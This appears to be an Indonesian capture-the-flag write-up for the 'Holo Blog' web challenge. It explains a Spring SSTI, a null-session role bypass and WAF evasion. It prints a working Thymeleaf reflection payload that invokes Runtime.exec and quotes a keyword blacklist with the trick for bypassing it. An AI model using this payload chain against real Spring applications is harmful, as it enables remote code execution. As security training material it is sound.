 # Holo Blog

|Category|Solves|
|--------|------|
|Web|0/12|

## Challenge Difficulty Overview
### Challenge Difficulty
| Points | Difficulty | Stars |
|--------|------------|-------|
| 3.90/5.00 | hard | ★★★★ |

### Points Breakdown
| Name | Value |
|------|-------|
| Multifaceted Skills Needed | 4 |
| Complex Code/Payload/Bypass | 5 |
| Multiple Steps of Complexity | 2 |
| Dynamic Elements and Updates | 2 |
| Hidden Attack Vectors or Non-Traditional Attack Vectors | 4 |

> Note: Based on [ctf-difficulty-calculator](https://github.com/dimasma0305/ctf-challenge-difficulty-calculator)


# Description
Just finished Hololep blog yesterday, can you check it for me?

# Overview

Pada challenge ini terdapat 2 vulnerability. Yang pertama adalah SSTI yang dapat kita lihat pada source code berikut

```java
public class Public {
    @GetMapping("/")
    String index(HttpSession session) throws Exception {
        String lang = (String) session.getAttribute("lang");
        return String.format("lang/%s/index", lang); // vulnerable to SSTI
    }
}
```
> [source code](https://github.com/dimasma0305/My-CTF-Challenges/blob/cffb36330020de892d3073a42d71bc6e50a8d23b/Hology-final-2023/Holo-Blog/src/src/main/java/com/blog/blog/controler/Public.java#L13)

Dan yang kedua adalah null session trick untuk membypass `"guest".equals(role)`. Kita dapat merubah atribute "lang" dengan melakukan bypass "guest" pada kode berikut:

```java
    @PatchMapping("/lang")
    DefaultResponseFormat patchLang(@Valid @RequestBody(required = true) Lang data, HttpSession session)
            throws Exception {
        val defaultResponseFormat = new DefaultResponseFormat();
        val sessionId = session.getId();
        val user = new User();
        val role = user.getRole(sessionId);
        if ("guest".equals(role)) {
            throw new HttpClientErrorException(HttpStatus.UNAUTHORIZED, "Unauthorized");
        } else {
            session.setAttribute("lang", data.getLang());
            defaultResponseFormat.setMessage("ok");
        }
        return defaultResponseFormat;
    }
```
> [source code](https://github.com/dimasma0305/My-CTF-Challenges/blob/88ed381fead0fea20a2d0f5b45b657f88148b9c2/Hology-final-2023/Holo-Blog/src/src/main/java/com/blog/blog/controler/RestPublic.java#L34)

Kalian dapat melakukan bypass dengan cara membuat "role" menjadi null, ini bisa dilakukan dengan mengakses endpoint refresh:

```java
    @GetMapping("/refresh")
    RedirectView refresh(HttpSession session, HttpServletResponse response) throws SQLException {
        val redirectView = new RedirectView("/");
        val sessionId = session.getId();
        val user = new User();
        user.deleteUserByUserId(sessionId);
        response.setHeader("Set-Cookie", "JSESSIONID=null; Path=/; HttpOnly");
        return redirectView;
    }
```
> [source code](https://github.com/dimasma0305/My-CTF-Challenges/blob/88ed381fead0fea20a2d0f5b45b657f88148b9c2/Hology-final-2023/Holo-Blog/src/src/main/java/com/blog/blog/controler/RestPublic.java#L43)

Karna pada endpoint refresh melakukan delete pada user, maka program melakukan request ke database, maka username kita akan null.

## SSTI

Kita sudah dapat menkontrol atribute "lang", sekarang kita bisa melakukan SSTI spring view manipulation yang bisa kalian lihat penjelasannya pada artikel berikut: [link](https://github.com/veracode-research/spring-view-manipulation)

Tapi karna terdapat restriksi dari thymeleaf, kita harus membypass restriksi itu menggunakan [CVE-2023-38286](https://nvd.nist.gov/vuln/detail/CVE-2023-38286) yang POC-nya dapat kita lihat pada github repo berikut https://github.com/p1n93r/SpringBootAdmin-thymeleaf-SSTI .

Base Payload untuk melakukan exploit SSTI pada challenge ini dengan menggunakanas bypass tersebut kurang lebih seperti ini:

```java
getRuntimeMethod=''.getClass().forName('org.springframework.util.ReflectionUtils').findMethod(''.getClass().forName('org.springframework.util.ClassUtils').forName('java.lang.Runtime',''.getClass().forName('org.springframework.util.ClassUtils').getDefaultClassLoader()), 'getRuntime' )

runtimeObj=''.getClass().forName('org.springframework.util.ReflectionUtils').invokeMethod(getRuntimeMethod, null)

exeMethod=''.getClass().forName('org.springframework.util.ReflectionUtils').findMethod(''.getClass().forName('org.springframework.util.ClassUtils').forName('java.lang.Runtime',''.getClass().forName('org.springframework.util.ClassUtils').getDefaultClassLoader()), 'exec', ''.getClass())

finals=''.getClass().forName('org.springframework.util.ReflectionUtils').invokeMethod(exeMethod, runtimeObj, 'calc' )
```

Dikarenakan kita tidak bisa menggunakan `T()` seperti pada POC, kita menggantinya menggunakan `''.getClass().forName()`.

Jika digabungkan semua payload tersebut, maka final payload akan terlihat seperti berikut:

```java
__${''.getClass().forName('org.springframework.util.ReflectionUtils').invokeMethod(''.getClass().forName('org.springframework.util.ReflectionUtils').findMethod(''.getClass().forName('org.springframework.util.ClassUtils').forName('java.lang.Runtime',''.getClass().forName('org.springframework.util.ClassUtils').getDefaultClassLoader()), 'exec', ''.getClass()), ''.getClass().forName('org.springframework.util.ReflectionUtils').invokeMethod(''.getClass().forName('org.springframework.util.ReflectionUtils').findMethod(''.getClass().forName('org.springframework.util.ClassUtils').forName('java.lang.Runtime',''.getClass().forName('org.springframework.util.ClassUtils').getDefaultClassLoader()), 'getRuntime' ), null), 'calc' )}__
```

Sekarang kita perlu membypass WAF berikut ini:

```java
public class WAF {
    private static enum WafList {
        SSTI("\"", "+", "Runtime", "concat", "replace", "join", "format", "substring", "class", "java", "exec", "char",
                "Process", "cmd", "eval", "Char", "true", "false");

        @Getter
        private final String[] blacklist;

        WafList(String... blacklist) {
            this.blacklist = blacklist;
        }
    }
```

> [source code](https://github.com/dimasma0305/My-CTF-Challenges/blob/88ed381fead0fea20a2d0f5b45b657f88148b9c2/Hology-final-2023/Holo-Blog/src/src/main/java/com/blog/blog/waf/WAF.java#L6C1-L17C6)

Disini untuk melakukan bypass kita menggunakan concat untu mekonstruksi string yang bisa kita panggil seperti berikut:

```java
''.getClass().getMethods()[47].invoke(str1,str2)
```
> Note: concat tidak selalu berada di index ke 47, ini tergantung kode java dan juga versi java yang kita gunakan.

Untuk final payload bisa di lihat pada folder [./writeup](./writeup/)


# Reference
- https://github.com/p1n93r/SpringBootAdmin-thymeleaf-SSTI
- https://github.com/veracode-research/spring-view-manipulation
